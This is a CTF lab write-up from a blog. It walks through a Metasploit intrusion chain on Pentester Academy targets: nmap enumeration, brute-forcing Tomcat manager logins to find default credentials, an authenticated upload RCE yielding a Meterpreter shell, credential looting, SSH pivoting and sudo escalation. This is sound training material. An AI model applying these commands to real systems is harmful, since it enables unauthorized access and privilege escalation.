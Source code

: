 +++
author = "Nick"
categories = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
date = 2020-01-05T18:56:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/attackdefend-2.png"
slug = "attack-defense-metasploit-ctf-3"
summary = "In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two Metasploit modules. A module to test for valid user credentials and an authenticated RCE."
tags = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
title = "Attack | Defense - Metasploit CTF 3"

+++


Welcome back to the third entry in this series. In the last entry we used three `Metasploit` modules to obtain `mysql` credentials and leverage them on the target machine.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

![](/images/2019/12/image-77.png)

## Enumeration
If you've been following along, you know that we being our enumeration process with `nmap`. We'll now start to combine the set of command options we've learned. Let's obtain our IP and scan our subnet:

Command:
`nmap -sV -T5 192.192.223.1/24`

Here are our results:
```
Nmap scan report for target-1 (192.192.223.3)
Host is up (0.000036s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.37
MAC Address: 02:42:C0:C0:DF:03 (Unknown)

Nmap scan report for target-2 (192.192.223.4)
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:C0:DF:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`Target-1` has two services running. `Jserv` and `Tomcat` both known to have some flaws in them. Let's use `searchsploit` to see if there are any `Metasploit` modules we can leverage.

Command:
`searchsploit jserv`
`searchsploit 'tomcat metasploit'`

![](/images/2019/12/image-78.png)

We see that we have a few `Tomcat` modules but no `Metasploit` modules returned for `Jserv`. Let's load `Metasploit`.

Command:
`msfdb run` or `msfconsole`

Once loaded, lets find the module we want to use.

Command:
`msf5> search tomcat`

![](/images/2019/12/image-80.png)

Quite a few modules come back. We see there are some authenticated modules and some RCE's. However, the first thing we want to try is to enumerate our possible login options. So for that we will use the `tomcat_mgr_login` module.

Command:
`msf5> use auxiliary/scanner/http/tomcat_mgr_login` or `msf5> use 8`

Once our module is loaded, we check our `options`.

Command:
`show options`

In this module, we will want to `set` our `rhosts` and that's it. Now in a larger CTF setting you would probably want to change the `pass_file`. This is the parameter that sets the password list. You could set it to something much larger, like `rockyou.txt` or something you've currated yourself and is more specific.

Command:
`msf5> set rhost target-1`

Then `run` our payload.
`msf5> run`

![](/images/2019/12/CTF_3_tomcat_mod.gif)

We see a successful credential pair: `tomcat`:`tomcat`. The default credentials. Well now that we know we have a valid set of credentials, we can seek to leverage them for an `Authenticated RCE`. 

When we look back on our listing of modules, we see there is an `Authenticated RCE` listed as `tomcat_mgr_upload`. We'll use that.

Command:
`msf5> use exploit/multi/http/tomcat_mgr_upload` or `msf5> use 15`

We check out `options` inside the module.

Command:
`msf5> show options`

![](/images/2019/12/image-81.png)

We have quite a few options to set here: `HttpPassword`, `HttpUsername`, `rhosts` and `rport`.

Commands:
`msf5> set HttpPassword tomcat`
`msf5> set HttpUsername tomcat`
`msf5> set rhosts target-1`
`msf5> set rport 8080`

In this scenario, we are setting our `HttpPassword` and `HttpUsername` to the credentials we verified earlier. Something we haven't done yet is set our `rport`. The default port here is 80, however, we determined that `Tomcat` is running on 8080.

We then `run` our exploit.

Command:
`msf5> run` or `msf5> exploit`

![](/images/2019/12/CTF_3_tomcat_aRCE.gif)

It worked! We not have a valied `Meterpreter` session! This is different than a normal shell. You can read all about what `Meterpreter` is [here](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/). For the purpose of this post, you just need to know it's a more advanced shell. 

We can use standard Linux commands inside this shell to navigate around and do some enumeration. We head to `/home` to see what users are listed.

![](/images/2019/12/image-82.png)

We have one user `devadmin`. Inside his home directory is a file called `note`.

![](/images/2019/12/image-83.png)

We look at it's contents and see some credentials.

![](/images/2019/12/image-84.png)

Great! We can safely assume that we are going to use these credentials to log into `target-2`. We will `background` our current shell just in case we need it later.

Command:
`meterpreter > background`

Then we'll exit the module we were in:

Command:
`msf5> back`

Now we are back to a standard `Metasploit` prompt. We can `SSH` from here! That's right, `Metasploit` will let us use many of our native Linux commands from within it's commandline.

Command:
`msf5> ssh admin@target-2`

We enter the password and accept our fingerprinting.

![](/images/2019/12/CTF_3_tomcat_target-2_ssh.gif)

We have admin credentials on the system but now what? We aren't root but we can try to switch the root user.

Command:
`sudo su`

Once we do that we are given an elevated prompt!

![](/images/2019/12/image-85.png)

We then head to `/root/` to find the `flag` file.

![](/images/2019/12/image-86.png)

Another CTF down! Hopefully this has been a learning experience for anyone that has read it through. Next up Metasploit CTF 4!



